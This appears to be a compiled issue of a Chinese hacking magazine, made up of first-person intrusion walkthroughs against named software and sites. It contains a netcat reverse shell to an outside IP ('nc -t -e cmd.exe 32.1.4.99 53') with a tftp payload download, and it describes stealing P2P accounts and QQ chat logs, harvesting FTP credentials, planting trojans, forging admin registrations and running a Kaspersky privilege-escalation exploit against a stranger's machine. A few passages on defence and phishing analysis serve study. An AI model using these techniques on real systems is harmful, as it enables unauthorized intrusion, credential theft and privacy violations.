对于这些弊端，前段时间有人提出了一个自认为“终极”的防守方法：不用将 cmd.exe 设置权限，只需使用如下方法：

因为 Windows 在启动 cmd.exe 时会首先在注册表中寻找如下键值……如果其中一个或两个都存在，这两个变量会先被执行。

在注册表的 `HKEY_LOCAL_MACHINE\Software\Microsoft\Command Processor\AutoRun` 和 `HKEY_CURRENT_USER\Software\Microsoft\Command Processor\AutoRun` 两个地方……根据这个特性，他认为只要将 AutoRun 的值指定一 bat 文件……即可防止被溢出（代码已经过本人优化）：

````
@echo off
@date /t>>c:\date.log    ----记录当前日期
@time /t>>c:\time.log    ----记录当前时间
@netstat -an>>c:\net.log ----记录当前连接
@echo 再来我K你          ----贫一下
@pause                   ----暂停，让入侵者看清楚
@exit                    ----退出shell
````


溢出后对方会得到一个如下的 Shell（这里用 Telnet 代替，原理是一样的），如图 1 所示。只要一按键就会“失去和主机的连接”，而且该次入侵行为还会被记录……为什么呢？

稍有些批处理常识的人就会想到 Ctrl+C 组合键可以中断批处理文件的运行。我们只要在提示“请按任意键继续…”时，按下 Ctrl+C 即可中断这个批处理，正常获得 Shell，如图 2 所示。


终极防守破灭了吧！这就是嘴贫的下场……如果你说那就不贫那一句了吧，删掉 pause 不就行了吗？真的行了吗？咱们把代码改一下：

````
@echo off
@date /t>>c:\date.log
@time /t>>c:\time.log
@netstat -an>>c:\net.log
@exit
````

这个怎么样，会直接失去连接，如图 3 所示。行了？NO！只要时机掌握得好，一样可以中断，如图 4 所示。


不过，本文如果到这里就结束那就太没意思了……最好方法是在 Shell 中导出 sbin.bat 路径，这里以导出 `HKEY_CURRENT_USER\Software\Microsoft\Command Processor\AutoRun` 下的值为例，使用 `reg export` 命令，方法“reg export 键 导出文件”，如图 5 所示。


这样再用 type 命令查看 sbin.bat 的内容就可以发现日志文件藏到哪里了。其实 reg 命令十分强大……这个东西用会了将极大地方便我们的安全检测。

有“终极防守”吗？新年第一个笑话！

适合读者：脚本爱好者、入侵爱好者

前置知识：无

## 华天 OA 系统文件下载漏洞

文/图 可爱木子


近来对国内开发的 OA 系统多了点兴趣，所以今天的主题也是 OA 系统。不过这个是华天公司开发的 OA 系统。

黑友们看到本文开头也许想起之前的桃源网络硬盘、新思创 OA 等下载模块存在的漏洞。今天我讲的也是这个漏洞，不过是发生在华天 OA 自动化办公系统里的下载模块。整体上，华天 OA 系统是基于 JAVA、J2EE 架构，所有程序封包。从这可以看到这套 OA 系统的严密性是非常强的，由于本人的 J2EE 技术还不过关，所以没法拆开它的封包来一一分析漏洞。下面的一个漏洞是偶尔灵感才看到的，下面我拿出来给大家分享一下，好让有关人士开发或者安全检测时多些经验。例如在网络硬盘里有一个“index.htm”文件，如图 1 所示。

````
2C47%2C70%2C73%2C76%2C69%2C50%2C48%2C48%2C53%2C49%2C49%2C50%2C51%2C49%2C49%2C53%2C52%2C54%2C51%2C53%2C46%2C100%2C97%2C116%2C124%2C105%2C110%2C100%2C101%2C120%2C46%2C104%2C116%2C109
````

主要是看“filePath”后面的值，通过“debug”里的“DB:”来查看，可以看到的是“,”字符，从全部来看，应是当作一个分隔符来看。下面我把所有“%2C”改成“,”来看，如图 3 所示。


图 3


图 1

点击就会弹开一个新的页面来实现下载，如图 2 所示。


图 2

细心的朋友就会看到 URL 里的一些有规律性的变量值，下面我把它全提取出来，方便分析。

````
“Http://localhost:8080/OAapp/WebObjects/OAapp.w0/a/w_a/D:/.0_w.n.0.a.d.F?1e?filePath=67%2C58%2C47%2C73%2C76%2C69%2C50%2C48%2C53%2C49%2C49%2C50%2C51%2C49%2C49%2C53%2C52%2C54%2C51%2C53%2C46%2C100%2C97%2C116%2C124%2C105%2C110%2C100%2C101%2C120%2C46%2C104%2C116%2C109 ...”
````

来到这，是不是有些像以前黑防实验室里的第一关呢？不过这里我们要解码的不是 UNICODE，而是用 ASCII。下面我用“Debug”命令来看，因为上面里的数据是转换了 10 进制显示的，所以我们有必要换成 16 进制来输入。如图 4 所示。


图 4

从这个“filePath”的变量值可以看到，它后面的应是服务器里的真正物理路径。为了方便，我用 VB 写了一个这些代码的转换工具，界面如图 5 所示。


图 5

为了验证我的处理是否正确，决定尝试下载它 C 盘里的“windows\my.ini”文件（因为默认是用 MySQL 的，一般 MySQL 会把一些资料放在这个文件里），如图 6 所示。看来又是一个严重的问题。


图 6

## 漏洞攻防（EXPLOIT ATTACK & DEFENCE）

把编码的字符串通过修改 URL 里的“filePath”变量来提交，My.ini 这个文件顺利下载了，如图7所示。

从这简短的试验可以看到，我的分析是正确的。只要把“my.ini”文件下载回来，就可以看到它的 MySQL 装在哪个目录，然后就一步一步把它的数据库下载回来解码。这样，一个 OA 系统的用户账号全到手了。由于时间关系，小虾没办法一一去分析，以上仅是普通的测试。


- 适合读者：入侵爱好者，漏洞研究者  
- 前置知识：脚本攻击基础

## VIP会员学习成果展

## MDaemon WebAdmin 配置漏洞分析

文／图 [黑防VIP] tombook

这个漏洞，其实是我在搞一个站的时候发现的。由于该站点不适合公布出来，所以网站名字在这里用 www.hacker.com.cn 代替。主要利用的是 MDaemon WebAdmin 配置漏洞。

适用版本：  
MDaemon WebAdmin 2.x  
MDaemon WebAdmin 3.x

首先，先用流行的 SQL 注入工具 NBSI2 检测一下：http://www.hacker.com.cn/news?id=123。

测试发现存在 SQL 注入，是 Access 的库，但就是找不到管理员表。很郁闷，找了国外比较强的商业 Web 检测工具——Acunetix Web Vulnerability Scanner。此工具可以检测 SQL 注入、XSS 和其他的 Web 漏洞。安装后进行扫描并保存结果。软件还自带了若干小工具，比如 Web 密码破解、HTTP sniffer、HTTP editor 等。如图1所示。

经过几十分钟的等待，找到一个备份的 main.old，用记事本打开，看见一些 SQL 查询语句片段。前面加 NJ 字段后扫出了管理员密码。登录后台后发现站点有两个后台（一个可上传文件，一个不能）。

接下来继续追查，发现 whois 中 webmaster@hacker.com.cn 可能是管理员邮箱，网站联系方式也是这个。


登录 mail.hacker.com.cn 后发现是 MDaemon 7.x 邮件系统，用之前得到的管理员密码尝试，用户名用 webmaster@hacker.com.cn。

登录到管理员邮箱后，起初没找到可利用点。后来注意到装有 MDaemon WebAdmin 2，可能存在可利用配置项。在 WebAdmin 中逐项查看后，发现可配置 MDaemon 各种路径，联想到类似路径相关漏洞利用。

经过约 3 天测试，发现关键在于 2.x 与 3.x 的差异：在 MDaemon WebAdmin 2 中，某些附件目录设置不会真正改写注册表文件，从而形成可利用条件。

登录到管理员邮箱后，进入“Mdaemon设置”，再进入配置界面（如图2），在 Config/Log Files 里选择配置文件 mdaemon.ini，定位到相关选项（如 LocalHideWindow 等）继续分析利用。


LocalProcess 这两项，如果没有，可以点 ADD，自己添加进去。我说一下这个的含义：

LocalHideWindow 是指本地以隐藏方式运行，你不想操作的时候让管理员看见不停有 CMD 窗口出现吧。

LocalProcess 是指本地执行命令，可以在里面直接写命令，比如 `ping hacker.com.cn`，如图3所示。


在远程 mail 系统中，你修改的这 2 个地方是在如图4、图5所示位置。

以上就是修改后的样子。说明了原理，下面就可以用了，在本机开个 TFTP、NC，TFTP 的用法如图6所示。

```bash
tftp -i 32.1.4.99 get nc.exe
```

从 32.1.4.99 接受 nc.exe，直接修改 LocalProcess 执行命令，如图7所示。


```bash
nc -t -e cmd.exe 32.1.4.99 53
```

nc 用法：`nc -t -e cmd.exe 32.1.4.99 53`，说明反弹一个 cmdshell 连接本机 53 端口，这个在 web 上执行。

`nc -vv -lp 53` 说明本机执行监听 53 端口，这个在本机执行，如果有防火墙自己先允许 53 端口访问。如图8所示。执行成功后，有了 cmdshell，主要的过程就完成。

webadmin 中修改，除了在 2.x 中的执行命令的方式外，还有其他办法。看图，附件的位置可以利用，如图10、11所示。

我把附件或者被过滤的文件都放在启动组里，等他重启机器，呵呵。是不是很恶毒呢？


有了 cmdshell，主要的过程就完成，剩下的就是开终端服务或者 RADMIN，安装系统后门之类。具体方法可见以前文章。实际进入的机器是 2003-SP1，系统默认安装后是开启终端服务。我上传并导入一个允许远程访问终端服务的注册表文件，找到 PWDUMP 把加密密码导出，再用 LC5 破解出管理员密码登录，就完成入侵，如图9所示。

在 MDaemon WebAdmin 3.x 版本中可利用的地方更多，MDaemon 大部分功能都可以在 Web 里改。还可以重定向 mail 的 Web 目录，最简单功能就是看 boot.ini 文件、查看机器系统类型、把邮件的 Web 服务切换到 IIS 上使用。

最后可通过邮件服务器与 Web 服务器的关联进一步进入 Web 服务器，拿到目标数据。

脚本小子：最近 P2P 软件世界热闹得不可开交，数个此类公司被罚款，BT 被香港法院公开认定是违法行为。……北大新出的 Maze 就出现了这样的漏洞，利用该漏洞，不但可以盗取账号，还让计算机中的所有文件存在被盗取的威胁。

- 适合读者：网民、下载狂  
- 前置知识：P2P 软件基础

## 天网 Maze

### 漏洞报告

文／图 small rascal


BT、电驴在发扬共享精神的同时，也带来了巨大的数据流量……最近见到了一款不错的软件——天网 Maze。……最重要的是它是自主研发的。对于这么好的一款软件，其安全性又如何呢？下面就是我的测试过程。


现在我们在搜索栏中输入 `config.xml` 进行搜索……找到一个在 Maze 文件夹下的，选择弹出菜单中的“下载”将文件保存到本地。下载完毕后退出 Maze。


```xml
<Type8>htm,html,asp,asa,php,js,jsp,pl,php3</Type8>
<Uid>3037254</Uid>
<Pwd>...</Pwd>
<NickName>zzzzzzz</NickName>
<CardExpireTime>...</CardExpireTime>
<LastAccountAddTime>...</LastAccountAddTime>
<Friends>...</Friends>
<Q>我的生日是什么时候？</Q>
<A>...</A>
<ISAUTOLOGIN>1</ISAUTOLOGIN>

（对应图3中的 config.xml 内容）
```

### 盗取 Maze 账号

在一次无意的测试中，我发现了 Maze 有一个非常大的安全隐患。它可以直接从 Maze 的资源中下载对方的配置文件，再进行简单的修改就可以用对方的账号登录使用了。下面就以一个具体的例子来说明。

首先，我们注册一个账号，填写内容如图2所示。点击“确定”后得到 Maze 号码，立刻到 Maze 的安装文件夹中找到名为 `config.xml` 的文件，用记事本打开……图3中已用箭头标出各个对应项功能。

再回到 Maze 中，点击“个人”菜单下的“转到个人信息页面”。这时在左下方能看到自己的 Maze 号、昵称、级别和财富，如图4所示。

没有 `<ISAUTOLOGIN>1</ISAUTOLOGIN>` 这句的话将其添加并保存，然后将该文件复制到自己的 Maze 文件夹中覆盖原有 `config.xml`，重新启动 Maze。登录成功后在个人信息页可见信息与下载到的账号一致。

现在，别人的账号已经被我所用，虽然不能改密码，但却可以使用它的财富。


## 窃取QQ聊天记录

利用同样的原理，在搜索栏中输入“qq.exe”，这样搜索出来的包含许多别人的 QQ 文件夹。在选中的文件上单击右键，选择进入该文件夹即可。进入后选中以数字为文件夹名的所有文件夹，也就是 QQ 号对应的文件夹，将其下载到本地的机器上，然后利用 QQ 免密码查看聊天记录工具就可以查看各个号码的聊天记录了，如图7所示。这个问题在其他的 P2P 软件中也同样存在。

## 解密 BASE64 码

在“config.xml”中有两段是经过加密的，熟悉密码编码的人一看就知道是 BASE64 码，我们可以通过 BASE64 解密工具将其解密。在实验过程中发现“Card”栏能解密，而“Pwd”则不行。


如图8所示。这说明“Card”是用的默认加密算法，而“Pwd”则修改了算法，但既然是用 BASE64 算法，还是有被破解的可能，而且可能性非常大。

### 总结

虽然前两个问题是因为个人安全意识而造成的，但我认为软件设计中应该考虑到这些问题，并相应做一些提示或过滤，不能这么大大咧咧地放在 Internet 上，使用户的隐私外泄。再者，替换文件就能盗用账号，这个问题在软件中也是完全可以避免的。而用 BASE64 作为加密方式非常弱。一款好的软件不能只考虑性能，在某些场合安全性比性能更为重要。

- 适合读者：入侵爱好者，脚本爱好者  
- 前置知识：无

## 动易跨站漏洞

## 入侵中国混客联盟

文／图 龙剑士[黑防VIP]

今天发现了一个动易的跨站漏洞，这个漏洞出现在 Comment.asp 这个文件中。先进入主页，随便找篇文章并点击“发表评论”。程序在发表评论的地方没有过滤，所以可导致跨站攻击。我们在网址处输入 `<script>alert('HACKED BY 龙剑士')</script>` 试试。

点击发表后再回到文章页面查看是否成功。若页面没有直接弹出，可查看评论详细内容及更多评论，然后才可以看到代码。

```html
<span title='类别: 游客 ...'>
姓名: 龙剑士, 信箱: Ojqcq, 主页: <script>alert('HACKED BY 龙剑士')</script>
</span>
```

- 适合读者：入侵爱好者，脚本爱好者  
- 前置知识：FTP 入侵基础

## 巧用 Ability FTP Server

新闻闯入侵  
制造黎明站


文／图 周五杰

2005年9月买了一个 MP3，科旗的牌子，用的有一年多时间，质量还不错，前不久它终于光荣下岗了，我再想买个新的，尝尝鲜。现在的 MP3 品牌乱七八糟，实在不知道买什么样子的好，于是就想起了以前用的牌子（科旗），翻翻柜子，终于找到了保修卡和发票，上面印着官方网站（www.koky.com.cn），于是连上我的 ADSL，上网看看这个网站。

打开 IE，输入网址，看了看他们的产品介绍，不错，科旗的东西就是不错（广告哦）！但是大多都是 MP4 产品，我只要 MP3 就好了。不过既来之则“安”之了，打开我们的阿D-SQL 注入 2.3，找到了一个 SQL 注入点。如图1所示。


我猜我猜我猜猜猜，成功获得管理员的 ID 和 Password，如图2所示。

从后台成功登录，如图3所示。

找个能上传的地方，开船（传）哦！晕，竟然可以上传任何文件。如图4所示。


但是上传文件的路径呢？我在这个地方浪费了一些时间，程序把上传的文件偷偷地改了名，显示的却是原来的名字，当你点“确定”的时候才会偷偷把真实的文件名写入数据库，“可恨”啊！打开我们的免杀木马，如图5所示。

看到有 C、D、E 三个盘，C 和 E 盘的根目录不允许访问，从网站的目录上看不像是独立的服务器，我把路径换成了 `E:\\WEB\\`。如图6所示。

哈哈！管理员的权限没有设置好，285 个站点哦！


图5


图6

现在想干什么就可以干什么了！我在 D 盘找到个很像 FTP Server 软件的目录，原来是“Ability FTP Server”，如图7、8所示。

它是一个小巧、高速、稳定的 FTP 服务器软件，支持远程管理、病毒防护，程序安全可靠；安装简单方便，界面友好。原来它也是个像 Serv-U 一样的 FTP 服务软件！下载测试一下！我注意到 config 目录下有 accounts.dta 和 groups.dta，如图9所示。

我左看右看上看下看，怎么看怎么觉得是 FTP 账号的存放文件，我把它们下载下来覆盖本地的文件。哈哈！这下发了，利用星号密码查看器找到了 346 个 FTP 账号。如图10所示。


图8


图9


图10

这个 FTP Server 软件真是漏洞多多，我在本地新建了一个 FTP 账号，把 C、D、E 盘设成可访问，再把上面的两个文件传上去。可是我搞的这台主机权限不够，只能读，不能写（郁闷哦），而且我还发现这台主机还开了 NVIDIA 硬件防火墙！

好了！就写到这里吧！大家以后如果遇到意外情况要自己多摸索，相信自己；有什么不懂的我们可以问 Google 呀！入侵就像是搭积木，一定要灵活运用，技术才能提升！


图7

- 适合读者：网络爱好者、入侵爱好者  
- 前置知识：无

## BT下载：肉鸡的温床

文／图 苏志鹏（lucky bird）

这几天在家，一直在用 BT 下游戏。突然有一天，在防火墙的日志中发现有人对我实施 Hack 攻击，如图1所示。


图1

无语了，我的机器又不是服务器，用 SQL 溢出做什么？再说我根本就没有装 SQL。忘记说明了，这段日志是我用 BT 下载时发现的。

反思了一下以前机器老被种木马的原因，才发现了问题的关键。因为用 BT 时为了防止防火墙的过滤，所以我一直是把防火墙的安全级别降到最低。这样看来，想不被种马也难啊。不过由此，我也发现了一个能够得到大量肉鸡的思路和方法，大家请继续往下看。

打开比特精灵，我们看一下连接上的 IP，如图2所示。


图2

我们把这些 IP 复制下来，保存为文本。用 X-Scan 扫描，看看哪些地址能够得到主机响应。这里我从 X-Scan 中任意抽取一个主机响应的 IP 地址。然后我们用 Ping 来测试一下，如图3所示。


图3

扫描结果出来了，不扫不知道，一扫吓一跳。如图4、图5所示。


图4


图5

从扫描结果中，我们可以发现，这些主机大部分的安全性都不是太好。我尝试着通过 XP 自带的远程连接和溢出程序攻击，但都没有成功。可能是因为冲击波病毒针对的是未打补丁的系统而不是弱口令系统，导致许多用户只是关注系统补丁而忽视了弱口令的问题。如图6所示。


图6

不过没关系，先留住这只准肉鸡，等以后最新的溢出漏洞出现了，我们再使用溢出程序溢出就可以了（切记要赶在弱口令用户打补丁之前进行……），这种抓肉鸡的方法针对性很强，所以一般收效都是非常明显的。

有攻自然有防，我来给大家总结一下防范经验。BT 下载时我总是将防火墙的安全级别调低，这样做本身是不安全的。然而在使用 BT 下载时，它的内存占用率很大，以至无法提供给杀毒软件足够的内存去检查文件。所以很多人在机器被种马后都没有察觉。各位需要注意的是，自己的系统千万不要有弱口令，并且记得及时打补丁。防火墙设置为高或者中等。最后一点很重要，下载完软件记得杀毒。


## 沸腾新闻又现漏洞

- 适合读者：脚本爱好者
- 前置知识：脚本漏洞的应用基础

文／图 李明孝

漏洞：沸腾3.AS流浪尘缘新闻系统注册漏洞

漏洞危害：任意注册超级管理员帐号

沸腾新闻系统（以下简称沸腾）在爆出文件上传漏洞之后，已经安静了好长时间了。改了文件上传漏洞，改了SQL注入漏洞，或者注出一堆的MD5密文后，这个系统真的没有漏洞了吗？回答当然是否定的，今天就让我们一起来探索沸腾新闻系统的又一新漏洞——管理员注册漏洞。

### 寻找对象

使用沸腾的网站很多，我们只要在Google中输入“V0.45 ACCESS版Finish”就可以找到一大堆使用这个系统的网站，如图1所示。


图1

既然是注册漏洞，当然需要先判断我们找到的网站有没有开启注册用户功能。其实大多使用这个系统的用户都不用注册这个功能，但却没有关闭它。我们只需在地址栏中输入 `http://目标/admin/adduser.asp`，如果注册用户功能没有关闭，便能够正常显示注册页面了；如果关闭了就重找一个网站。

### 抓取并更改数据包

在确认开启注册后，我们就可以进行注册了。填好相关资料后先不要点确认，我们用WsockExpert监听看我们要提交的页面，提交后捕获的数据如图2所示。


图2

从数据包中我们可以看到提交给服务器的所有参数。除了表单中的参数外，还有一些默认的隐含参数 `purview=1&oskey=selfreq&reqlevel=1&cmdOK=...` 等。用过沸腾的朋友都知道，满足 `oskey=super` 的条件即表示该用户是系统管理员，同时满足 `purview=99999` 的话那么就是超级管理员了。注册时要从本地提交这些参数，那么就意味着我们可以从本地提交更改过的数据包，达到注册一个超级管理员的目的。

把我们刚才捕获的数据包全选后存为一个文本文件，如 `4.txt`，修改数据包中的 `username=` 后面的字符串为你想要申请的超级管理员用户名，`purview` 值改为 `99999`，`oskey` 值改为 `super`，包的大小可以不修改。然后将 `nc.exe` 和 `4.txt` 保存到C盘根目录。

### 注册超级管理员用户

进入命令行模式，用 `nc` 提交刚才我们修改过的数据包，如图3所示。命令如下：


图3

```bash
nc www.xxxyy.com 80 < 4.txt
```

提交后，会有相应的提示，如果注册成功会有如图4所示的成功提示信息。


图4

这表示我们已经注册了一个用户。用注册的用户名和密码登录后台，可以看见所有新闻版块，用户信息处显示如图5所示，表示我们已经成功注册了一个超级管理员用户。


图5

### 漏洞解决办法

这只是一个很小的漏洞，解决的方法就是在保存注册信息页面，不接受表单提交，直接为管理员标识赋予固定值即可。

## 天网Bug分析

- 适合读者：破解爱好者；程序员
- 前置知识：汇编基本阅读能力

文／图 Prudence


想必有不少小黑们通过辛勤劳动而得到了肉鸡，在上面安装后门后却被防火墙无情地阻挡。在极度“郁闷”之时kill掉了防火墙，又被管理员逮个正着，以后再上可就没那么容易了。

本文主要针对那些装天网防火墙的主机。小生才学疏浅，望各位高手见谅。好了，一番废话之后，言归正传。说起天网，大家都了解甚多，它是一个网络上比较流行的防火墙，小到个人电脑，大到服务器都使用它。

打开天网的安装目录，先从文件名入手（比较正规的软件一般对文件命名是比较有规律的）。进入 Rules 文件夹一看，有个叫 AppRule.dat 的文件，一猜便知道是天网中应用程序访问网络权限列表中的程序。不信的话你可以打开 Filemon 监控一下。用UE打开它，出现一堆乱码，如图1所示。


图1

一看显然是被加密过的（郁闷至极），通过比较反复试验……搞了一个整个中午还是没把密文解开，就这样算了？这哪能算是黑客精神啊。于是乎便继续探究，功夫不负有心人，经过我的钻研，发现天网有一个小小的Bug：它将PE文件的资源版本信息、程序路径和一系列访问规则加密起来后保存在 AppRule.dat 文件中。

于是我便想，如果把PE文件中（当然是我的小马）的版本信息资源换成天网防火墙程序访问规则中允许访问网络的程序信息，再把小马重命名为和该程序同名，然后拷贝到该程序的目录下，替换掉原来的程序，这样天网也就会误认为我们的小马是允许访问网络的程序了。

猜想是猜想，实践才是真理的源泉嘛！于是便拿了IE和QQ做实验，在天网中QQ设置为可以访问网络，IE设置为拒绝访问网络。好了，关键来了，打开ResScope载入QQ，将资源中的Version导出，如图2所示。


图2

然后在“X:\Program Files\Internet Explorer\iexplore.exe”（X为系统盘）拷贝出一份，同样用ResScope打开，把刚才导出的资源文件导入进去。保存好后，把它重命名为QQ.exe，并拷贝到QQ目录下，替换掉真实的QQ。好了一切搞定之后，双击假冒的QQ.exe，便启动了我们熟悉的IE。在地址栏中随便输入一个地址，可以正常访问，发现天网不再弹出那个烦人的访问规则确认框了。

用QQ和IE做例子只是因为比较方便，毕竟大家都有这两样东西。又因手头没有比较好的小马，况且在自己机子上运行木马我才不干呢！不过可以用同样的原理在你的肉鸡上试一下，这回再也不是QQ和IE了，而是你的小马和杀毒软件升级程序（毕竟比较少用，不易被发觉；其他的当然也可以，只要不易被管理员察觉的、防火墙又允许访问网络的程序都可以）。如果是系统文件的话，我建议你去看一下2005年第11期的“Windows文件保护如此不堪一击”，毕竟Windows还有WFP保护着呢。这样既达到了你的目的，又让杀毒软件不能升级，岂不是一举两得。

## 从EBay钓鱼邮件想到的

- 适合读者：入侵爱好者、网民
- 前置知识：无

文／郝永清


每天都打开自己的GMAIL来收邮件，今天突然想起了我的Tom信箱。很长时间我都是用它来接收垃圾邮件，前几个月还收到过PayPal的钓鱼邮件，结果不小心被我删了。当然我还是先去下载了他的钓鱼代码，可惜一直没有破解出他的邮箱。还收到一个假QQ找回密码的邮件，可惜去的时候网站不存在了。最近有人在QQ上发名为“我的最近照片.exe”的文件给我，还不停叫我接收。这种白痴真丢人，做菜鸟黑客做到这个样子，我连骂他的力气都没有，直接加入黑名单。

今天收到了EBay的邮件，大笑，此邮件肯定是假的。我从来不用网上银行，也不用我收垃圾邮件的邮箱注册重要的站点。

> 网络钓鱼（Phishing）一词，是“Fishing”和“Phone”的综合体。由于黑客发掘起初是以电话作案，所以用“Ph”来取代“F”，创造了“Phishing”。Phishing发音与Fishing相同。网络钓鱼攻击者利用欺骗性的电子邮件和伪造的Web站点来进行诈骗活动，受骗者往往会泄露自己的财务数据，如信用卡号、账户和口令、社保号等内容。诈骗者通常会将自己伪装成知名银行、在线零售商和信用卡公司等可信的品牌，在所有接触诈骗信息的用户中，有高达5%的人会对这些骗局做出响应。

反网络钓鱼首先需要设置一下邮件查看方式，以TOM信箱为例，进入“邮件设置→参数设置”，修改信头显示，选择全部显示，如图1所示。

查看这封邮件，发现日期是2003年1月18日。我每次登录这个TOM邮箱后总是要删光邮件，然而日期竟然是这个。看起来对方发邮件的工具比较有意思，能够修改邮件的日期，如图2所示。


进入邮件正文，查看邮件头：

```text
Received: from p50843426.dip0.t-ipconnect.de (unknown [80.132.52.38])
by bjmzx4 (Coremail) with SMTP id ...
for <tomb99@tom.com>; Tue, 30 Aug 2005 02:21:18 +0800 (CST)
X-Originating-IP: [80.132.52.38]
FCC: mailbox://identdep_op2@ebay.com/Sent
X-Identity-Key: id1
Date: Sat, 18 Jan 2003 04:36:51 +0500
From: eBay Inc <identdep_op2@ebay.com>
X-Accept-Language: en-us,en
MIME-Version: 1.0
To: tomasiosipqti@tom.com
Subject: EBAY INC - URGENT SECURITY NOTICE [Sat, 18 Jan 2003 05:33:51 +0600]
Content-Type: multipart/related; boundary="..."
Message-Id: <...>
```

原来对方机器上的日期是2003年1月18日。看看对方IP：80.132.52.38→来自德国。对方邮件 `identdep_op2@ebay.com`，收件人上面没有我的邮件地址，但是怎么就到我这了？比较奇怪。

> 邮件头提供了详细技术信息列表，如该邮件的发件人、用于撰写该邮件的软件，以及在其到达收件人途中所经过的电子邮件服务器。

> 这些详细信息对于辨别电子邮件的问题，或者辨别未经授权的商务邮件来源非常有用。当然这个信息也是可以伪造的。

当鼠标指向邮件正文，状态栏中地址正常，如图3所示。


图3

选中此邮件点右键，看见可疑的真实IP地址，如图4所示。


图4

查询一下IP，发现是黑龙江的。单击此邮件，在标题栏出现了实际地址 `http://218.8.252.73/image/.../`，如图5所示。


图5

打开之后，看见左下角有警告图标，如图6所示。


图6

用鼠标在标题栏修改地址，发现无法修改，猜测他是用JavaScript将地址栏重画了。

查看代码：

```javascript
<script language="JavaScript" type="text/javascript">
<!--
var h='...';
...（大量混淆与编码内容）...
document.write(g);
//-->
</script>
```

竟然是Unescape加密，够笨。我用个解密网页解密之后，代码如下：

```javascript
<script language="javaScript" type="text/javascript"> ... document.write(g);g=""; ... </script>
```

以前用Minibrowser浏览器来做Cookie欺骗，结果发现用它来反网络钓鱼效果也不错，如图7所示。

这个浏览器的好处是，它可以将JavaScript加密的文件自动解密。接着查看一下关键代码部分，如图8所示。


```html
<form method="post" name="RegisterEnterInfo" action="https://scgi.ebay.com/ws/eBayISAPI.dll?RegisterEnterInfo&amp;siteid=0&amp;co_partnerid=2&amp;UsingSSL=1"> ...
METHOD: POST
URL: https://scgi.ebay.com/ws/eBayISAPI.dll? ...
```

```html
RegisterEnterInfo&amp;siteid=0&amp;co_partnerid=2&amp;UsingSSL=1
PARAM:
<form name="login" method="post" action="http://218.8.252.73/image/.../SecurityMeasures.php">
<input type="text" name="userid" ...>
<input type="password" name="pass" ...>
<input type="submit" ... value="Sign In Securely">
<input type="checkbox" name="keepMeSignInOption" ...>
</form>
METHOD: POST
URL: http://218.8.252.73/image/.../SecurityMeasures.php
PARAM: &userid=&pass=&keepMeSignInOption=1
```


这个网页的作用就是收集你的用户名和密码，够毒。现在找到下一页地址 `http://218.8.252.73/image/.../SecurityMeasures.php`，浏览该页面，如图9所示。


这里输入信用卡的信息，4种卡都支持，你自己编一个都行，页面不校验卡的有效性。卡号是16位，Card identification number 3位，Card pin 4位。继续看代码，如图10所示。

查看发送按钮的表单，按钮地址 `http://218.8.252.73/image/.../submit.php`，通过 `submit.php` 把卡号信息发送出去，如图11所示。

`submit.php` 执行后，自动跳转到正常的EBay网站，如图12所示。


图10


图11


图12

到此，你的EBAY用户名、密码、卡号都发送到他的邮箱中了。最后顺藤摸瓜去看一下这台主机，如图13所示。


图13

```html
<html>
<HEAD>
<TITLE>eBay Help: Updating Registration Information</TITLE>
<META HTTP-EQUIV="Refresh" CONTENT="0; URL=http://pages.ebay.com/help/account/ia/updating-registration-information.html">
</head>
<body>
</body>
</html>
```

用X-Scan 3.3扫了一下，没见什么漏洞，旁注也试了，没有绑定国际站点。发现还有个后台TOMCAT，可惜密码没猜出来。最后轻微破坏一下，发邮件给网站管理员，告诉他机器被黑，收工走人。

## 卡巴斯基也是系统漏洞

- 适合读者：入侵爱好者
- 前置知识：无

文／图 lotos


Kaspersky Antivirus是非常流行的杀毒软件（废话，谁都知道，再废话就砸鸡蛋了啊）。这次的漏洞就是和它相关的。Kaspersky在处理某种类型的IOCTL操作时存在漏洞，本地攻击者可能利用此漏洞提升自己的权限。Kaspersky的KLIN和KLICK设备驱动在处理 `IOCTL 0x80052110` 操作时没有正确检验地址空间。攻击者可以向受影响的IOCTL处理器发送特制的IRP结构，通过Call指令导致驱动执行任意代码。

KLIN和KLICK设备驱动是Kaspersky Antivirus在操作系统中安装的两个虚拟设备驱动，对应的文件分别是 `system32\Drivers\klin.sys` 和 `system32\Drivers\klick.sys`。具体功能不清楚，不过用IceSword可以看出应该是监视并拦截部分API操作的。这个漏洞主要影响 Kaspersky Labs Kaspersky Antivirus 6.0.0.303。

### 漏洞利用

最近闲来无事在网上闲逛，实在无聊就打开了X-scan扫描着玩儿，没想到竟然发现一台3389的弱口令机器……

某地IDC（互联网数据中心，也就是一般所说的托管机房）的网段，怎么会有一台Windows XP呢？

运行终端服务器客户端（可以用快捷点的方法，在“运行”对话框中输入MSTSC就可以了）连接到目标主机。乖乖，真的是Windows XP，不可思议中……我不记得Windows XP是否可以，不过Windows 2000默认Guest是不能从终端登录的，难不成是个“蜜罐”专门看谁送上门来？不管了，先看看再说。当前是Guest权限，而且Windows的补丁全都打了，除了能浏览网页什么都干不了。突然间发现有个Kaspersky Internet Security 6.0.0.303，天助我也，看来我的人品的确好到了极点！

到网上一阵狂搜，找到了Kaspersky漏洞的exploit，在命令行下编译竟然出错了，如图1所示。不过不是大错误，好像是需要USER32库。重新输入命令 `cl main.cpp /link user32.lib` 编译成功，如图2所示。


图1


图2

如果你不喜欢命令行界面下的编译，可以打开Visual C++ 6.0来进行编译。不过推荐大家用命令行来进行编译，不要被Windows给“惯坏了”。如果想成为高手的话，很多东西都要在命令行下进行。不要惧怕命令行，当你用得多的时候，你看它就会有一种亲切感了。

将编译后的文件上传到虚拟主机上，到目标主机上下载并执行，如图3所示，溢出成功了！不过先别高兴得太早，我们来看看8080端口的确开放了吗？如图4所示。哈哈，天堂之门已经为我们敞开了……

接下来Telnet目标IP，就得到了我们期盼已久的Shell了，如图5所示。到这里攻击就算完成了，擦PP和装后门就不是今天的议题了，根据自己的情况操作即可。当然，你也可以用其他的方式来提权，比如Serv-U提权（如果有Serv-U的话）、利用 `autorun.inf` 或 `desktop.ini`、替换管理员常用程序、替换系统服务等方式提权。

### 漏洞防护

当前卡巴斯基已经发布了此漏洞的补丁，直接下载补丁或者安装新版本即可解决问题。如果厂商还没有发布相对应的补丁怎么办呢？


图3


图4


图5

我们可以做一些安全策略来阻断攻击：

- 一是启动TCP/IP端口的过滤，仅打开常用的TCP端口，如21、80、25、110、3389等端口。如果安全要求级别高一点的话，可以将UDP端口关闭。这样做的缺陷就是在服务器上连接外部就不方便了，这里建议大家用IPSec来封UDP。在协议筛选中只允许TCP协议（协议号为6）、UDP协议（协议号为17）以及RDP协议（协议号为27）等必要协议即可，其他无用均不开放。
